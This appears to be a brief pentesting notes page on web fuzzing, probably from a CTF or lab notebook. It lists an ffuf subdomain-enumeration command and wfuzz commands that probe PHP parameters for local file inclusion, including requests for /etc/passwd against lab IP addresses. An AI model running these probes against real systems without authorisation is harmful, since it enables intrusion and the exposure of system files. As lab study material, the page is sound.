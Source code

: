 ```yaml
---
title: Fuzzing
permalink: /Web/Fuzzing
---
```



# Check subdomains

```ffuf -u http://$BOX -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.$BOX" -mc 200```  

## Ffuf has a -recursive option


# Injections PHP
```wfuzz -c --hc=404 -w /SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt http://10.129.175.50/images.php?img=FUZZ```
```wfuzz -u http://10.10.11.135/image.php?FUZZ=/etc/passwd -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -t 50 --hh 0```
